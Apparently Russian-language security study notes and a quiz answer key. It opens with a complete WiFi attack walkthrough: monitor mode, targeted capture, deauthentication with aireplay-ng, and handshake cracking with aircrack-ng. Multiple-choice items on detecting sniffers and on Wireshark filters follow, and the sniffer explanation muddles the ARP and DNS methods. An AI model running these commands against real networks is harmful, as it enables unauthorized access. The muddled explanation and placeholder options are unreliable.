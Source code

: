 При атаке по типу деаутентификации используется команда aireplay-ng -0 ...
```CMD
# Пример
ifconfig
# Теперь для включения режима монитора введите следующую команду:
sudo airmon-ng start wlan0
# Режим мониторинга включен, теперь мы должны убить все PID, которые мешают работе адаптера, Эти процессы выделены красным цветом в примере выше. Убить процессы можно с помощью команды kill:
kill 508 1420
# обнаружим беспроводные сети вокруг нас:
airodump-ng wlan0
# интересует сеть под названием Kali на канале 1. Обратите внимание на номер канала и MAC-адрес целевой точки доступа
# Channel: 1
# BSSID: 50:D4:F7:E5:66:F4
airodump-ng -c 1 -w kali --bssid 50:D4:F7:E5:66:F4 wlan0
# перехватываем пакеты, пытаясь перехватить handshake, теперь откройте второе окно для !! деаутентификации !! клиентов из сети. 
aireplay-ng -0 0 -a 50:D4:F7:E5:66:F4 wlan0
# -0 означает деаутентификацию
# Теперь нам нужно расшифровать handshake. В терминале вводим ls, чтобы перечислить все текущие каталоги и файлы. Выбираем файл с расширением ".cap", который должен называться kali-01.cap, и вводим следующую команду:
aircrack-ng -w wordlist.txt kali-01.cap
# KEY Found ...
```


### 35. Что из перечисленных вариантов является наиболее простым методом обнаружения снифферов в сети? С чем это связано?
- [x] ? Отправлять в сетевую среду провокационные сообщения с заранее предусмотренными IP-адресами, которых в теории нет и не должно быть в DNS-кэше хакера. Это связано с тем, что все снифферы по умолчанию пытаются отрезолвить (PTR) неизвестные им IP-адреса
- [ ] С помощью WireShark. Это связано с возможностью отлавливать активность себе подобных
- [ ] Бороться со снифферами бесполезно. Это связано с проблемами реализации протоколов
- [ ] С помощью системы обнаружения и предотвращения вторжений

ARP.AntiSniff. CPM. neped. sentinel. WinSniffer. CommView. ZxSniffer. SpyNet. IRIS.
Метод ARP считается наиболее простым методом обнаружения снифферов в сети. Для его использования нужно передать ARP на нешироковещательный адрес. Если машина отвечает на такой ARP своим IP-адресом, значит, она находится в прослушивающем режиме.
Простота метода связана с тем, что многие снифферы по умолчанию разрешают неизвестные локальному DNS-кэшу DNS-имена IP-адресов отлавливаемых кадров данных. Если сниффер поймает сообщение с неизвестным ему IP-адресом, он моментально отправит DNS-запрос дефолтному DNS-серверу на разрешение интересующего IP-адреса.
Также простым методом обнаружения снифферов может считаться метод DNS. Многие прослушивающие программы автоматически делают запросы обратного DNS IP-адресов, которые они видят. Таким образом, прослушивающий режим можно обнаружить при помощи просмотра DNS-траффика, который он создаёт. 


### 36. Какой из вариантов фильтров будет корректно отрабатывать в случае, если нужно исключить IP-адрес из поиска в WireSharK?
- [x] ? ip.src!=192.168.129.129
- [ ] ...
- [ ] ...
- [ ] ~ ip.addr !=192.168.129.129
